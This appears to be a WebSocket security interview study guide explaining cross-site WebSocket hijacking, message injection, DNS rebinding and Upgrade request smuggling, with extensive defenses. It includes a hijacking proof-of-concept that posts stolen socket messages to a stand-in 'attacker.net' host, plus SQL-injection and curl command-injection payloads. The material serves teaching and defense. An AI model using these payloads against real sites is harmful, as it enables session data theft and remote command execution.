

# WebSockets Security

> **Mental model:** a WebSocket is an HTTP request that never ends. It opens with a normal HTTP `Upgrade` handshake (cookies attached, `Origin` sent) and then drops into a raw, framed, full-duplex channel that is *not* wrapped in the CORS machinery that guards `fetch`/`XHR`. Two consequences follow. First, the browser lets any origin *open* a cross-origin socket without a preflight or an `Access-Control-Allow-Origin` grant; the only cross-site defense is the server checking the `Origin` header, which many servers forget. If the handshake authenticates purely from cookies and carries no unpredictable token, any attacker page can open an authenticated socket in the victim's session and, unlike classic CSRF, *read the responses too* (cross-site WebSocket hijacking, CSWSH). Second, every message flowing over the socket is just untrusted input on a channel developers often forget to validate, so all the classic server-side injections (SQLi, command injection, XXE) and client-side XSS reappear, minus the middleware that would normally sanitize an HTTP body.

**Interview frequency:** Situational

## How it works

A WebSocket is created in client JavaScript:

```javascript
var ws = new WebSocket("wss://normal-website.com/chat");
ws.onmessage = function(event) { /* attacker/opener can read every server message here */ };
ws.send("Peter Wiener");
```

**The handshake.** The browser turns that call into an HTTP/1.1 `Upgrade` request. This is a real HTTP request, so it carries cookies and an `Origin`:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Upgrade: websocket
Connection: keep-alive, Upgrade
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Origin: https://normal-website.com
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
```

If the server accepts, it switches protocols:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

The important detail: `Sec-WebSocket-Key` is a per-handshake Base64 random value, and `Sec-WebSocket-Accept` is `base64(SHA1(key + "258EAFA5-E914-47DA-95CA-C5AB0DC85B11"))` where the GUID is a fixed magic string defined in RFC 6455<sup>[[1]](#ref1)</sup>. This handshake is *not authentication*. Its only purpose is to prove the endpoint is a real WebSocket server and to stop caching proxies or misconfigured HTTP servers from being tricked into treating the channel as a cached HTTP response. Any client can compute `Accept` deterministically; it grants no security.

**After 101.** The TCP connection stays open and both sides exchange framed messages asynchronously, in either direction, for the lifetime of the connection. Client-to-server frames are XOR-masked with a per-frame key (an RFC 6455<sup>[[1]](#ref1)</sup> requirement); server-to-client frames are not masked. Masking is an anti-cache-poisoning measure for intermediaries, not an application security feature. Payloads are arbitrary; in practice they are usually JSON:

```json
{"user":"Hal Pline","content":"hello"}
```

**`ws://` vs `wss://`.** `wss://` runs the WebSocket over TLS; `ws://` is plaintext, exposing cookies and messages to interception and injection, and an HTTPS page is blocked from opening a `ws://` socket as mixed content.

**Why there is no same-origin enforcement by default.** Unlike `fetch`, opening a cross-origin WebSocket does not trigger a CORS preflight and does not require the server to return `Access-Control-Allow-Origin` before the opener can read data. The browser attaches cookies per normal cookie rules and forwards the `Origin` header, then delegates the entire cross-site trust decision to the server. Once the socket is open, the opener's `onmessage` handler can read *everything* the server sends. That delegation, plus servers that never check `Origin` and never add a token, is the whole basis of CSWSH.



## Quick reference

```html
<!-- Cross-site WebSocket hijacking (CSWSH) PoC: opens an authenticated socket cross-origin, no CORS preflight required -->
<script>
  var ws = new WebSocket("wss://vulnerable-website.com/chat");
  ws.onopen = function() {
    ws.send("READY");                 // trigger the app to replay chat history / secrets
  };
  ws.onmessage = function(event) {
    fetch("https://attacker.net/exfil", {method: "POST", body: event.data});  // two-way read, unlike classic CSRF
  };
</script>
```

| Invariant | Where enforced | How violated | Source |
|---|---|---|---|
| Every inbound WebSocket message is treated as untrusted input on both client and server, not just the HTTP body | Message-handling code path (server parsers, client DOM rendering) | Chat/JSON messages are concatenated into SQL/OS-command/XML sinks, because the socket bypasses the HTTP body-parsing middleware where input filters usually live | <sup>[[5]](#ref5)</sup> |
| `Sec-WebSocket-Key`/`Sec-WebSocket-Accept` prove the peer speaks the WebSocket protocol, never identity or authorization | Handshake computation (`base64(SHA1(key+GUID))`, RFC 6455) | A successful `101 Switching Protocols` is mistaken for authentication instead of the handshake's cookie/token being checked independently | <sup>[[6]](#ref6)</sup> |
| Message content rendered into a recipient's DOM is context-encoded, never `innerHTML`'d verbatim | Client-side message-rendering code | `{"message": X}` is written into `<td>X</td>` unescaped, executing attacker HTML/JS in every recipient's browser | <sup>[[7]](#ref7)</sup> |
| Authorization is re-checked per message, not inherited once from a cookie present at handshake time | Application message-handling layer | The handshake's cookie is treated as blanket authorization for every subsequent message, so a hijacked or replayed socket performs privileged actions unchecked | <sup>[[8]](#ref8)</sup> |
| Compression context is never shared between secret data and attacker-controlled message content on the same connection | `permessage-deflate` extension negotiation (`server_no_context_takeover`) | A session token or secret compresses in the same dictionary as attacker-influenced input, enabling a CRIME/BREACH-style length oracle | <sup>[[9]](#ref9)</sup> |
| Cross-site WebSocket handshakes are rejected unless `Origin` matches a strict server-side allowlist | Server-side handshake validation | Server never validates `Origin`, so an attacker page's handshake opens a live, two-way authenticated socket in the victim's session (CSWSH) | <sup>[[2]](#ref2)</sup> |
| The two hops of a reverse-proxy chain agree on whether a connection is a WebSocket tunnel or still plain HTTP before either forwards `Upgrade` | Front-end/back-end HTTP/2-to-HTTP/1.1 header handling | Front-end forwards hop-by-hop `Upgrade`/`Connection` headers it should strip on HTTP/2 ingress, so the back-end opens a tunnel the front-end doesn't know about, smuggling requests between users | <sup>[[4]](#ref4)</sup> |

## Attack techniques

### 1. Message tampering into classic server-side injection

Treat each WebSocket message as just another request parameter. A chat message `{"message":"Hello Carlos"}` may be concatenated into a SQL query, an OS command, an XML parse, or a NoSQL filter on the server. Intercept in Burp's WebSockets view and inject:

```json
{"message":"Carlos' OR '1'='1"}
{"message":"$(curl http://COLLAB.oastify.com)"}
```

Blind variants are common: the response may not echo, so use out-of-band (OAST/Burp Collaborator) payloads to confirm SQLi/SSRF/command execution reached through the socket. WHY it works: the socket bypasses the HTTP body-parsing middleware where input filters usually live, so devs frequently never sanitize this path.

### 2. XSS via relayed messages

If attacker-controlled message content is broadcast to other users and rendered into their DOM, you get stored/reflected client-side XSS. Given a server that renders `{"message": X}` into `<td>X</td>`:

```json
{"message":""}
```

The payload executes in every recipient's browser in the app's origin. Detection: send a benign marker and observe whether it reaches other clients unencoded.

### 3. Cross-site WebSocket hijacking (CSWSH)

The headline attack: a CSRF vulnerability on the *handshake*. Preconditions: the handshake authenticates solely via cookies, includes no CSRF token or other unpredictable value, and the server does not validate `Origin`. The attacker hosts a page that opens a socket to the victim app; the browser attaches the victim's session cookie, the socket opens in the victim's context, and because the WebSocket API is two-way and CORS-free, the attacker both sends privileged messages and reads the responses:

```html
<script>
  var ws = new WebSocket("wss://vulnerable-website.com/chat");
  ws.onopen = function() {
    ws.send("READY");                 // trigger the app to replay chat history / secrets
  };
  ws.onmessage = function(event) {
    fetch("https://attacker.net/exfil", {method: "POST", body: event.data});
  };
</script>
```

Impact per PortSwigger<sup>[[2]](#ref2)</sup>: (a) perform unauthorized actions as the victim (write, like classic CSRF), and (b) retrieve sensitive data the victim can access (read, which classic CSRF cannot). The two-way read is the defining escalation over ordinary CSRF.

### 4. Handshake manipulation to reach more attack surface

The session context in which every subsequent message is processed is fixed at handshake time, so handshake flaws are high-value. Misplaced trust in headers is common: spoof `X-Forwarded-For` to bypass IP allowlists or forge a trusted source, tamper custom application headers the server parses, or exploit session-handling flaws where the handshake binds a privileged context. Use Burp Repeater's handshake wizard (pencil icon) to clone/reconnect and edit the raw handshake before it is sent.

### 5. Exfiltration over the hijacked socket

Once a CSWSH socket is open, sometimes no sending is needed: just wait. Apps that push chat transcripts, notifications, account details, or CSRF tokens over the socket hand the attacker that data directly through `onmessage`, which is forwarded to the attacker's server. This turns a "read-only" push channel into a data-theft primitive.

### 6. DNS rebinding against localhost and LAN WebSocket services

Endpoints that bind only to `127.0.0.1` or a LAN IP (developer tools, IoT bridges, desktop RPC surfaces like the Discord/Transmission-class clients, wallet daemons) are widely defended with the argument "only local processes can reach it, and we check `Origin` anyway." DNS rebinding defeats both. The attacker's page loads from `attacker.com` with a DNS TTL of 0. After the initial page fetch the attacker's DNS server flips the record to `127.0.0.1`. The browser still treats subsequent requests to `attacker.com` as same-origin with the original hostname, so `new WebSocket("ws://attacker.com:PORT/")` connects to the victim's local service while the browser sends `Origin: https://attacker.com`.

Origin allowlists that trust `attacker.com`, or that only reject a short deny-list of known-hostile origins, let the socket through. Servers that inspect `Host` are bypassed too, because the browser sends the rebound hostname, not `127.0.0.1`. Once the socket is open the attacker has full access to whatever the local RPC exposes: torrent management, media libraries, dev-tool internals, key material.

Mitigations: for localhost or LAN sockets, do not rely on `Origin` alone. Require a pre-shared secret in the handshake (a per-install token the user or installer provisions), pin `Host` to the literal `localhost` / `127.0.0.1` string and reject anything else, or run behind TLS with a certificate the attacker cannot obtain. This is the standard bypass for "my service only listens on 127.0.0.1" and the answer principal interviewers want to hear.

### 7. HTTP request smuggling via the `Upgrade` handshake

When a front-end reverse proxy and back-end disagree about whether a request is a WebSocket upgrade, the tunnel that stays open can be used to smuggle subsequent HTTP requests attributed to other users' connections. One shape is an HTTP/2 front-end that forwards the hop-by-hop `Upgrade` and `Connection` headers (which RFC 7540<sup>[[3]](#ref3)</sup>/9113<sup>[[4]](#ref4)</sup> says must be stripped) to an HTTP/1.1 back-end, which reads them as an upgrade even though the front-end still thinks the connection is a normal HTTP/2 stream. Another shape is a front-end that forwards `Upgrade: websocket` without waiting for the back-end's `101`; the back-end returns a normal HTTP response but the front-end holds the socket open in tunneled mode, so the next bytes on that connection are interpreted as a fresh request by whichever party is confused.

This is the H2.WS / H2C smuggling family, and it turns "our WebSocket handler doesn't do anything sensitive" into arbitrary request smuggling against the rest of the site behind the same fronting layer, poisoning connections belonging to other users.

Defense: the front-end must strip hop-by-hop headers on HTTP/2 ingress; only forward `Upgrade` when it truly intends to switch protocols and has confirmed the back-end supports it; the back-end must reject `Upgrade` handshakes that do not produce a `101`; and both hops must agree on connection reuse policy after a failed upgrade. If they disagree about whether the connection is still an HTTP connection or a raw tunnel, that gap is the smuggle.

**Detection and testing.** Use Burp Suite: the **WebSockets history** tab shows every message; **Proxy > Intercept** (with WebSocket interception rules) lets you modify client-to-server and server-to-client messages live; **Repeater** lets you replay a message repeatedly, craft new messages in either direction, and edit/resend from the history; the handshake wizard attaches to, clones, or reconnects a socket with a fully editable handshake. For CSWSH specifically: review the handshake, confirm the only session material is a cookie with no token, then prove exploitability by opening the socket from a different origin (host a PoC page or force a foreign `Origin`) and checking you can read server messages. For blind server-side bugs, wire payloads to Collaborator.

## Defense

Ordered by effectiveness. The CSWSH fixes (1 and 2) are the ones interviewers probe hardest.

### Real fix

1. **Validate the `Origin` header on the handshake against a strict allowlist (server-side).** Reject handshakes whose `Origin` is not an expected origin. This directly kills browser-driven CSWSH because the attacker's page cannot forge a trusted `Origin` from within a browser. Caveat to state: `Origin` is only trustworthy for browser-originated requests, a raw non-browser client can set any value, so this defends browser victims but is not a general authentication mechanism.

2. **Bind a session-specific CSRF token to the handshake.** Require an unpredictable, single-use token tied to the session, supplied as a handshake parameter. Prefer a first-message challenge/response or the `Sec-WebSocket-Protocol` header over a URL query string. Query-string tokens land in reverse-proxy access logs, browser history, `Referer` headers on any subresource load from the opener page, crash reports, and CDN logs, and stay valid until they expire, so a JWT-in-URL that is good for hours is the wrong answer and interviewers will push on it. If a query-string handshake ticket is unavoidable, it must be bound to the session cookie, single-use, short-TTL (seconds), and rotated on redemption for a server-side socket-scoped identifier. The attacker's cross-origin page cannot read this token (the SOP stops it reading the victim's authenticated pages), so it cannot forge a valid handshake. This is the robust CSWSH defense and does not depend on trusting `Origin`. Modern complement: mark session cookies `SameSite=Lax`/`Strict` so the cross-site handshake is not authenticated in the first place.

3. **Authenticate and authorize at the message level, not just the handshake.** Do not treat "the handshake had a cookie" as blanket authorization for every future message. Bind the socket to the authenticated identity and re-check authorization per sensitive action, so a hijacked or replayed socket cannot perform privileged operations.

4. **Treat all WebSocket data as untrusted in both directions.** Parameterize database queries, use safe command APIs, disable external entities on XML parsers, and context-encode any message content rendered into a client DOM (or set via `textContent`, never `innerHTML`). This closes the injection and XSS classes independent of the transport.

### Defense in depth

1. **Always use `wss://` (WebSockets over TLS).** Protects cookies and message contents from network interception and injection and avoids mixed-content downgrade. Never expose sensitive sockets over `ws://`. This protects confidentiality and integrity of traffic in transit; it does not close CSWSH, injection, or any of the application-logic classes above.

2. **Rate-limit and cap resources.** Long-lived, cheap-to-open sockets are DoS-prone; limit connections per user/IP, cap message size and rate, and enforce idle timeouts.

3. **Hard-code the endpoint URL; never build the `ws`/`wss` URL from user input.** Prevents an attacker from redirecting the socket to a malicious server or smuggling injection into the connection target.

## Interviewer probes

**Q: Why can't you just put the auth token in an `Authorization` header from JavaScript when opening a WebSocket?**

- **Mid:** Because the browser `WebSocket` constructor doesn't expose a way to set arbitrary request headers, so `Authorization` and custom `X-*` headers can't be attached from page JS.
- **Principal:** Only the URL, the subprotocols argument (which becomes `Sec-WebSocket-Protocol`), and cookies (via normal cookie rules) are controllable by page JS on the handshake. That forces three patterns, each with a tradeoff. Cookies on the handshake are the default and are the reason CSWSH exists, so `SameSite` and a handshake CSRF token are non-negotiable. A bearer in the query string leaks into access logs, `Referer` on any subresource, browser history, crash reporters, and CDN logs, so if you use it, it must be a single-use short-TTL handshake ticket bound to the session, never a long-lived JWT. Smuggling the token through `Sec-WebSocket-Protocol` works because subprotocols are settable from JS, but the server must echo the chosen value and it should still be a one-time ticket. Native and mobile clients don't have this restriction and send a real `Authorization` header, so server-side auth must accept both shapes.

**Q: You have an nginx in front of a Node WebSocket app. What smuggling class do you worry about and what does the config need to say?**

- **Mid:** Request smuggling via the `Upgrade` handshake: the two hops can disagree about whether the connection became a WebSocket tunnel or is still an HTTP connection, and the disagreement lets subsequent bytes be re-attributed to another user.
- **Principal:** The H2.WS / H2C family. If nginx accepts HTTP/2 on ingress and forwards hop-by-hop `Upgrade` / `Connection` headers to the HTTP/1.1 back-end, the back-end reads them as an upgrade while nginx still thinks the stream is normal HTTP/2, and the resulting tunnel is a smuggle primitive against other users' connections. Fixes: nginx must strip hop-by-hop headers on HTTP/2 ingress; only forward `Upgrade` when the back-end will actually switch protocols; the back-end must reject `Upgrade` handshakes that do not produce a `101`; and both hops must agree on connection reuse after a failed upgrade. Confirm with James Kettle's HTTP/2 smuggling toolkit and by watching whether nginx keeps a connection warm after the back-end returned a non-101 to an upgrade attempt.

**Q: Your service listens only on `127.0.0.1` and checks `Origin`. Is that safe from a malicious website?**

- **Mid:** No, DNS rebinding defeats it. The attacker's page loads from a domain with TTL 0, then the DNS record flips to `127.0.0.1`, and the browser sends the original hostname as `Origin` while the socket lands on your local service.
- **Principal:** The browser's origin model uses the URL hostname, so `Origin` after rebinding is still `https://attacker.com`, which any allowlist that permits `attacker.com` will accept, and `Host` is not a defense either because the browser sends the rebound hostname literal, not `127.0.0.1`. The correct defenses are: require a pre-shared secret in the handshake (a per-install token the installer provisions), pin `Host` to `localhost` / `127.0.0.1` literals and reject anything else, or terminate TLS with a certificate the attacker can't obtain. `Origin` alone is not enough for a localhost or LAN socket, and this is the standard bypass for the "only listens on 127.0.0.1" argument.

**Q: If I only need to push notifications from the server, should I use WebSockets or SSE, and why does it matter for security?**

- **Mid:** SSE. It's unidirectional server-to-client, rides normal `fetch`, is subject to CORS, and inherits `SameSite` cookie behavior, so the CSWSH class disappears.
- **Principal:** WebSockets are exempt from CORS and delegate the cross-site decision to the server's `Origin` check, so any missing check is a hijack primitive with two-way read. SSE keeps the browser in the loop: the initial `EventSource` / `fetch` request goes through CORS, `SameSite` cookies aren't attached cross-site by default, and there's no CSWSH-shaped attack because there's no writable back-channel. Choose WebSockets only when the workload genuinely needs bidirectional low-latency messaging. Long-polling fallbacks (socket.io, SockJS) reintroduce the WebSocket auth model over plain HTTP endpoints, and those `/polling` routes are frequently forgotten by `Origin` checks and CSRF middleware, so audit them under the same lens as the raw socket.

**Is `Sec-WebSocket-Key`/`Sec-WebSocket-Accept` some kind of session token or CSRF defense?**

Mid: No, it's just a proof that both ends speak the WebSocket protocol correctly, not a credential or an anti-CSRF token.

Principal: No, and treating it as one is a common misread. It's an anti-cache-poisoning proof that both ends actually speak the WebSocket protocol, nothing more. `Sec-WebSocket-Accept` is deterministically derivable by anyone: `base64(SHA1(key + "258EAFA5-E914-47DA-95CA-C5AB0DC85B11"))`, using a fixed GUID defined in RFC 6455. It grants no security and carries no identity. The handshake's actual authentication, if any, comes entirely from the cookie (or lack of one) and whatever `Origin`/token checks the server bothers to run.

**Why is CSWSH rated higher-impact than classic CSRF, mechanically?**

Mid: Because CSWSH gives the attacker a live socket they can also read from, not just send blind requests like classic CSRF, so it can exfiltrate data as well as perform actions.

Principal: Classic CSRF forges a fire-and-forget request; the attacker can make the victim's browser act, but cannot see the response. CSWSH yields a live, two-way channel: because WebSockets are exempt from CORS, the browser lets the attacker's page open the socket and read every message the server sends back through `onmessage`. So the attacker both performs unauthorized actions (the CSRF-equivalent write) and exfiltrates data the victim can access (a read CSRF structurally cannot do). That two-way read is the entire reason CSWSH gets rated above ordinary CSRF.

**The protocol masks client-to-server frames. Does that mean message contents are protected from a network attacker?**

Mid: No, masking is just XOR obfuscation for proxy/cache safety, not encryption; only `wss://` (TLS) actually protects message contents on the wire.

Principal: No. Masking (RFC 6455) exists to stop malicious page content from poisoning caches and misconfigured intermediaries that might mistake a WebSocket frame for a cacheable HTTP response, it's an anti-cache-poisoning measure for infrastructure, not message confidentiality. It's also asymmetric: client frames are masked, server frames are not, which only makes sense as a proxy-safety mechanism rather than an application security control. Only TLS via `wss://` protects the actual contents of messages and cookies from network interception.

**Should you worry about `permessage-deflate` compression on a WebSocket that carries both a session token and attacker-influenced content?**

Mid: Yes, mixing secrets with attacker-controlled input under a shared compression context can leak the secret through compressed-message-size differences, so avoid compressing sensitive data alongside untrusted input.

Principal: Yes. WebSockets negotiate the `permessage-deflate` extension (RFC 7692) at handshake time, and when `server_no_context_takeover` is false, the compression dictionary persists across frames on the same connection. If a secret, a session ID, a CSRF token, private message content, ever shares that compressed context with attacker-controllable input, the attacker can mount a CRIME/BREACH-style oracle: vary an injected prefix and watch compressed frame length to recover the secret byte by byte. The fix is to disable compression on channels that mix secrets with untrusted input, or require `no_context_takeover` so each frame compresses independently. The same extension is a DoS vector inbound too, since a small compressed frame can decompress to megabytes, so cap post-decompression size, not just wire size.

## Sources

<a id="ref1"></a>[1] RFC 6455, "The WebSocket Protocol" (handshake, masking, magic GUID). IETF. December 2011. https://datatracker.ietf.org/doc/html/rfc6455

<a id="ref2"></a>[2] PortSwigger Web Security Academy, "Cross-site WebSocket hijacking". Retrieved 2026. https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking

<a id="ref3"></a>[3] RFC 7540, "Hypertext Transfer Protocol Version 2 (HTTP/2)". IETF. May 2015. https://datatracker.ietf.org/doc/html/rfc7540

<a id="ref4"></a>[4] RFC 9113, "HTTP/2" (hop-by-hop header handling on ingress). IETF. June 2022. https://datatracker.ietf.org/doc/html/rfc9113

<a id="ref5"></a>[5] PortSwigger Web Security Academy, "Testing for WebSockets security vulnerabilities". Retrieved 2026. https://portswigger.net/web-security/websockets

<a id="ref6"></a>[6] PortSwigger Web Security Academy, "What are WebSockets?" (handshake, `Sec-WebSocket-Key`/`-Accept`). Retrieved 2026. https://portswigger.net/web-security/websockets/what-are-websockets

<a id="ref7"></a>[7] OWASP Cheat Sheet Series, "HTML5 Security Cheat Sheet" (WebSockets, Web Messaging, sandboxed frames). Retrieved 2026. https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html

<a id="ref8"></a>[8] OWASP Cheat Sheet Series, "WebSocket Security Cheat Sheet". Retrieved 2026. https://cheatsheetseries.owasp.org/cheatsheets/WebSocket_Security_Cheat_Sheet.html

<a id="ref9"></a>[9] RFC 7692, "Compression Extensions for WebSocket" (`permessage-deflate`). IETF. December 2015. https://datatracker.ietf.org/doc/html/rfc7692
